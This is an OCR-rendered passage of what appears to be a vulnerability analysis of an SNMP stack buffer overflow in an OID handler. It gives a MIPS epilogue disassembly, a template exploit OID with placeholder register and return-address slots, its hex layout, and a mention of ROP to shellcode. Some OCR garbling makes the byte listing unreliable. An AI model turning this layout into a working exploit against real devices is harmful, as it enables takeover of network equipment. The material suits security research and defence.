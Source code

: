 Protocol Support (ALPS), where a long enough OID causes a stack-based buffer overflow that allows\
control of registers including the instruction pointer.

The registers that are controllable are those that are saved on the stack which are then restored in the\
function epilogue as follows:

```
seg000:60E7258C lw $ra, 0x50($sp)
seg000:60E72590 lw $s7, 0x4C($sp)
seg000:60E72594 lw $s6, 0x48($sp)
seg000:60E72598 lw $s5, 0x44($sp)
seg000:60E7259C lw $s4, 0x40($sp)
seg000:60E725A0 lw $s3, 0x3C($sp)
seg000:60E725A4 lw $s2, 0x38($sp)
seg000:60E725A8 lw $s1, 0x34($sp)
seg000:60E725AC lw $s0, 0x30($sp)
seg000:60E725B0 jr $ra
seg000:60E725B4 addiu $sp, 0x
```

A full exploit OID looks similar to the following:

1.3.6.1.4.1.9.9.95.1.2.4.1.3.69.65.65.65.65.65.65.65.65.65.65.65.65.65.65.\
65.65.65.65.65.65.65.65.65.65.65.65.65.65.S0.S0.S0.S0.S1.S1.S1.S1.S2.S2.S2.\
S2.S3.S3.S3.S3.S4.S4.S4.S4.S5.S5.S5.S5.S6.S6.S6.S6.S7.S7.S7.S7.RA.RA.RA.RA.\
65.65.65.65.

Once converted to hexadecimal, ignoring the common 1.3.6 prefix, the underlying data in relation to\
the stack is then as follows:

```
Raw OID bytes
```

```
01 04 01 09 09 5F 01 02 04 01 03 45 41 41 41 41
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 S0 S 0 S 0 S 0 S1 S1 S1 S
S2 S2 S2 S2 S 3 S 3 S 3 S 3 S 4 S 4 S 4 S 4 S5 S5 S5 S
S6 S6 S6 S6 S 7 S 7 S 7 S 7 RA RA RA RA 41 41 41 41
41
```

```
SNMP OID Additional bytes length Local variables padding
Overflowed registers Overflowed return address Padding
```

**SNMP uses ASN.1 to encode OIDs, resulting in multiple bytes representing integers above 127.**

The following diagram demonstrates the normal code execution flow and the return from the ROP\
gadget which calls the copy payload shellcode:

```
Figure 1: Exploit code execution flow
```
